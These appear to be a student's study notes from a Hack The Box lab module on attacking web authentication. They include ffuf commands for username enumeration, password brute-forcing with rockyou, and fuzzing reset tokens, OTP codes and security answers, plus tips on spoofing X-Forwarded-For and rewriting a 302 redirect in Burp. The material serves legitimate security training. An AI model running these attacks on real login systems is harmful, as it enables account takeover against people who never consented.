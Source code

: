 ![[Pasted image 20250507111907.png]]

#### Knowledge

Authentication based on knowledge factors relies on something that the user knows to prove their identity. The user provides information such as passwords, passphrases, PINs, or answers to security questions.

#### Ownership

Authentication based on ownership factors relies on something the user possesses. The user proves their identity by proving the ownership of a physical object or device, such as ID cards, security tokens, or smartphones with authentication apps. 

#### Inherence

Lastly, authentication based on inherence factors relies on something the user is or does. This includes biometric factors such as fingerprints, facial patterns, and voice recognition, or signatures. Biometric authentication is highly effective since biometric traits are inherently tied to an individual user.

| Knowledge                   | Ownership         | Inherence         |
| --------------------------- | ----------------- | ----------------- |
| Password                    | ID card           | Fingerprint       |
| PIN                         | Security Token    | Facial Pattern    |
| Answer to Security Question | Authenticator App | Voice Recognition |

## Enumerating Users
When we attempt to log in to the lab with an invalid username such as `abc`, we can see the following error message:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_1.png)

On the other hand, when we attempt to log in with a registered user such as `htb-stdnt` and an invalid password, we can see a different error:

   

![](https://academy.hackthebox.com/storage/modules/269/bf/userenum_2.png)

Let us exploit this difference in error messages returned and use SecLists's wordlist `xato-net-10-million-usernames.txt` to enumerate valid users with `ffuf`. We can specify the wordlist with the `-w` parameter, the POST data with the `-d` parameter, and the keyword `FUZZ` in the username to fuzz valid users. Finally, we can filter out invalid users by removing responses containing the string `Unknown user`:

```shell-session
ShibuShivansh@htb[/htb]$ ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=invalid" -fr "Unknown user"

<SNIP>

[Status: 200, Size: 3271, Words: 754, Lines: 103, Duration: 310ms]
    * FUZZ: consuelo
```


## Brute-forcing Passwords
**Counting Number of Lines in Wordlists :**
```shell-session
ShibuShivansh@htb[/htb]$ wc -l /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt

14344391 /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```

**Matching Passwords according to the Password Policy:**
```shell-session
ShibuShivansh@htb[/htb]$ grep '[[:upper:]]' /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '.{10}' > custom_wordlist.txt

ShibuShivansh@htb[/htb]$ wc -l custom_wordlist.txt

151647 custom_wordlist.txt
```


Upon providing an incorrect username, the login response contains the message (substring) "Invalid username", therefore, we can use this information to build our `ffuf` command to brute-force the user's password:

```shell-session
ShibuShivansh@htb[/htb]$ ffuf -w ./custom_wordlist.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=admin&password=FUZZ" -fr "Invalid username"

<SNIP>

[Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 4764ms]
    * FUZZ: Buttercup1
```

## Identifying Weak Reset Tokens
![[Pasted image 20250507165405.png]]

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown above.

To create a word list with the sequence 0000-9999 : `seq -w 0 9999 > tokens.txt`

And then running FFuF on the server to get the actual reset token : `ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"`

## Attacking Two-Factor Authentication (2FA)
Ffufing the OTP as a 2FA : `ffuf -w ./tokens.txt -u http://bf_2fa.htb/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=fpfcm5b8dh1ibfa7idg0he7l93" -d "otp=FUZZ" -fr "Invalid 2FA Code"`

## Rate Limits

Rate limiting is a crucial technique employed in software development and network management to control the rate of incoming requests to a system or API. Its primary purpose is to prevent servers from being overwhelmed by too many requests at once, prevent system downtime, and prevent brute-force attacks. By limiting the number of requests allowed within a specified time frame, rate limiting helps maintain stability and ensures fair usage of resources for all users. It safeguards against abuse, such as denial-of-service (DoS) attacks or excessive usage by individual clients, by enforcing a maximum threshold on the frequency of requests.

When an attacker conducts a brute-force attack and hits the rate limit, the attack will be thwarted. A rate limit typically increments the response time iteratively until a brute-force attack becomes infeasible or blocks the attacker from accessing the service for a certain amount of time.

A rate limit should only be enforced on an attacker, not regular users, to prevent DoS scenarios. Many rate limit implementation rely on the IP address to identify the attacker. However, in a real-world scenario, obtaining the attacker's IP address might not always be as simple as it seems. For instance, if there are middleboxes such as reverse proxies, load balancers, or web caches, a request's source IP address will belong to the middlebox, not the attacker. Thus, some rate limits rely on HTTP headers such as `X-Forwarded-For` to obtain the actual source IP address.

However, this causes an issue as an attacker can set arbitrary HTTP headers in request, bypassing the rate limit entirely. This enables an attacker to conduct a brute-force attack by randomizing the `X-Forwarded-For` header in each HTTP request to avoid the rate limit. Vulnerabilities like this occur frequently in the real world, for instance, as reported in [CVE-2020-35590](https://nvd.nist.gov/vuln/detail/CVE-2020-35590).

## CAPTCHAs

A `Completely Automated Public Turing test to tell Computers and Humans Apart (CAPTCHA)` is a security measure to prevent bots from submitting requests. By forcing humans to make requests instead of bots or scripts, brute-force attacks become a manual task, making them infeasible in most cases. CAPTCHAs typically present challenges that are easy for humans to solve but difficult for bots, such as identifying distorted text, selecting particular objects from images, or solving simple puzzles. By requiring users to complete these challenges before accessing certain features or submitting forms, CAPTCHAs help prevent automated scripts from performing actions that could be harmful, such as spamming forums, creating fake accounts, or launching brute-force attacks on login pages. While CAPTCHAs serve an essential purpose in deterring automated abuse, they can also present usability challenges for some users, particularly those with visual impairments or specific cognitive disabilities.


## Guessable Password Reset Questions
```shell-session
cat world-cities.csv | cut -d ',' -f1 > city_wordlist.txt
wc -l city_wordlist.txt 
```

```shell-session
ffuf -w ./city_wordlist.txt -u http://pwreset.htb/security_question.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=39b54j201u3rhu4tab1pvdb4pv" -d "security_response=FUZZ" -fr "Incorrect response."
```
- This command is used to Fuzz the parameter "security_response" and eliminating responses "Incorrect response"

## Direct Access
As we can see, the entire admin page is contained in the response body. However, if we attempt to access the page in our web browser, the browser follows the redirect and displays the login prompt instead of the protected admin page. We can easily trick the browser into displaying the admin page by intercepting the response and changing the status code from `302` to `200`. To do this, enable `Intercept` in Burp. Afterward, browse to the `/admin.php` endpoint in the web browser. Next, right-click on the request and select `Do intercept > Response to this request` to intercept the response.
![[Pasted image 20250514160146.png]]
Intrude the Request Live and then use the above option to capture the middle request.

## Authentication Bypass via Parameter Modification
